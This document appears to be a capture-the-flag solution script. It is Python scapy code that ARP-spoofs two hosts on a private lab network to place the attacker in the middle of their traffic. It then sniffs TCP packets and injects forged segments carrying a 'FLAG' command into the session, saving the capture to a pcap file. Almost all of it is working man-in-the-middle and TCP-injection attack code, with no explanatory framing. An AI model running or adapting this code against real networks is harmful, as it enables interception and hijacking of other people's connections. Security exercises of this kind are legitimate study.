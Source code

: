 ```py
    mitm_authenticated_host.run()

run_mitm_attack()

```





```py
from scapy.all import *

local_mac = get_if_hwaddr("eth0")
local_ip = '10.0.0.2'

target_ip1 = '10.0.0.3'
target_mac1 = getmacbyip(target_ip1)
target_ip2 = '10.0.0.4'
target_mac2 = getmacbyip(target_ip2)

# ether_pkt = Ether(src=local_mac, dst=target_ip1)

arp_spoof = ARP(
        pdst=target_ip2,  # Target IP address
        hwdst=target_mac2, # Target MAC address
        psrc=target_ip1,   # Source IP address (your IP)
        hwsrc=local_mac, # Source MAC address (your MAC)
        op=2              # op=2 for ARP reply (is-at)
    )
send(arp_spoof)
arp_spoof = ARP(
        pdst=target_ip1,  # Target IP address
        hwdst=target_mac1, # Target MAC address
        psrc=target_ip2,   # Source IP address (your IP)
        hwsrc=local_mac, # Source MAC address (your MAC)
        op=2              # op=2 for ARP reply (is-at)
    )
send(arp_spoof)

def pkt_inject(pkt):
    # return
    if pkt[TCP] and bytes(pkt[TCP].payload) == b'COMMANDS:\nECHO\nFLAG\nCOMMAND:\n':
        print(b'pwn!')
        ip_pkt = IP(src='10.0.0.4', dst='10.0.0.3')
        print(pkt[TCP].seq)
        tcp_pkt1 = TCP(sport=pkt[TCP].dport, dport=31337, flags='A', seq=pkt[TCP].ack, ack=pkt[TCP].seq+29)
        tcp_pkt2 = TCP(sport=pkt[TCP].dport, dport=31337, flags='PA', seq=pkt[TCP].ack, ack=pkt[TCP].seq+29) / b'FLAG\n'
        send(ip_pkt / tcp_pkt1)
        send(ip_pkt / tcp_pkt2)





packets = sniff(iface='eth0', count=200, prn=pkt_inject)

wrpcap('flag.pcap', packets)
# for i in range(20):
#     print(packets[i])
#     print(packets[i].show())
#     print(bytes(packets[i][TCP].payload))
```

